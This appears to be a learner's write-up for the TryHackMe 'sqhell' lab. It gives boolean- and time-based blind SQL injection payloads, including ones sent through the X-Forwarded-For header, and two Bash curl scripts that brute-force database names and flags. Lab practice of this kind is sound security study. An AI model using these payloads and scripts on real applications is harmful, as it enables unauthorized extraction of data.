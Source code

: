 > Repository created to showcase the queries and scripts developed to solve and obtain the flags of the tryhackme | sqhell machine (https://tryhackme.com/room/sqhell), specifically the flags that required the use of SQL injection techniques: 'Time-based' > X-Forwarded-For and 'Boolean-based'. I want to clarify that I am currently learning about these vulnerabilities and scripting in Bash, so any recommendations and assistance are highly appreciated.

# Blind SQL Injection > ‘Boolean based’

## Determine the length of DB: 
> 
```sql
> admin' AND LENGTH(DATABASE())=8-- - 
> we can try with time sleep to confirm this:
> admin' AND LENGTH(DATABASE())=8 and sleep(20)-- -
```

## Extracting the database name:
```sql
admin' and (select substr(database(),1,1))='s'-- -
```

## Use this bash script to extract Database, tables, columns, and the flag. Just change the payload:
```bash
#!/bin/bash

trap ctrl_c INT

function ctrl_c() {
    echo -e "\n\n\033[0;31m[!] Exiting...\033[0m"
    exit 1
}

main_url="http://10.10.68.51/register/user-check?username=admin"
characters=( {a..z} {0..9} '!' '@' '#' '$' '%' '^' '&' '*' '(' ')' '-' '_' '=' '+' '[' ']' '{' '}' ';' ':' '<' '>' ',' '.' '?' '/' '\\' '|' '~')

function makeRequest() {

    database=""
    total_positions=8
    total_characters=${#characters[@]}

    echo -e "\n\033[1;32mStarting BruteForce\033[0m\n"

    for ((position=1; position<=total_positions; position++)); do

        for ((i=0; i<total_characters; i++)); do

            character=${characters[i]}
            payload="%27%20and%20(select%20substr(database(),$position,1))=%27$character%27--%20-"
            url_payload=$main_url$payload
            response=$(curl -s "$url_payload")
            echo -ne "\r\033[1;34m[+] Retrieving data:[\033[0m$database$character]"

            if [[ $response == *"false"* ]]; then
                database+=$character
                break
            fi

        done
       
    done

    echo -e "\n\033[1;32mData found:\033[0m \033[1;32m$database\033[0m\n"
}

makeRequest
```

## Check tables:
```sql
admin' and (select substr(table_name,1,1) from information_schema.tables where table_schema='sqhell_3' limit 1)='f'-- -
```
## Check columns:
```sql
admin' and (select substr(column_name,1,1) from information_schema.columns where table_schema='sqhell_3' and table_name='flag' limit 1,1)='f'-- -
```
## Enumerate the column selected ( Get the Flag)
```sql
admin' and (select substr(flag,1,1) from flag limit 1)='t'-- -
```

## To determine the length of the "flag" column from the "flag" table, you can use the following SQL query: 
> 
```sql
> admin' and (select length(flag) from flag limit 1)=43-- -
```

# Blind SQL Injection > ‘Time based’ > X-Forwarded-For

## Determine the length of DB: 
> 
```sql
> X-Forwarded-For:1' AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND LENGTH(DATABASE())=8-- -
```

## Extracting the database name:
```sql
X-Forwarded-For:1' AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND (SELECT substr(database(), 1, 1))='s'-- -
```

** Use this bash script to extract Database, tables, columns, and the flag. Just change the payload:
```bash
#!/bin/bash

trap ctrl_c INT

function ctrl_c() {
    echo -e "\n\n\033[0;31m[!] Exiting...\033[0m"
    exit 1
}

main_url="http://10.10.65.29"
characters=( {a..z} {0..9} '!' '@' '#' '$' '%' '^' '&' '*' '(' ')' '-' '_' '=' '+' '[' ']' '\{' '\}' ';' ':' '<' '>' ',' '.' '?' '/' '\\' '|' '~')

function makeRequest() {

    database=""
    total_positions=8
    total_characters=${#characters[@]}

    echo -e "\n\033[1;32mStarting BruteForce\033[0m\n"

    for ((position=1; position<=total_positions; position++)); do

        for ((i=0; i<total_characters; i++)); do

            character=${characters[i]}

            payload="1' AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND (SELECT substr(database(), $position, 1))='$character'-- -"
            #url_payload=$main_url$payload
            echo -ne "\r\033[1;34m[+] Extracting the database name:[\033[0m$database$character]"
            time_start=$(date +%s.%N)
            response=$(curl -s -H "X-Forwarded-For:$payload" "$main_url")
            time_stop=$(date +%s.%N)

            duration=$(echo "$time_stop - $time_start" | bc )


            if (( $(echo "$duration >= 5" | bc -l) )); then
                database+="$character"
                break
            fi

        done

    done

    echo -e "\n\033[1;32mdatabase found:\033[0m \033[1;32m$database\033[0m\n"
}

makeRequest
```

## Check tables:
```sql
X-Forwarded-For:1' AND (SELECT SLEEP(5) FROM information_schema.tables WHERE table_schema='sqhell_1' AND SUBSTR(table_name, 1, 1) = 'f')-- -
```
## Check columns:
```sql
X-Forwarded-For:1' AND (SELECT SLEEP(5) FROM information_schema.columns WHERE table_schema='sqhell_1' and table_name='flag' AND SUBSTR(column_name, 1, 1) = 'f')-- -
```
## Enumerate the column selected ( Get the Flag)
```sql
X-Forwarded-For:1' AND (SELECT SLEEP(5) FROM flag where length(flag) = 43)-- -
```

## To determine the length of the "flag" column from the "flag" table, you can use the following SQL query: 
> 
```sql
> X-Forwarded-For:1' AND (SELECT SLEEP(5) FROM flag where length(flag) = 43)-- -
```
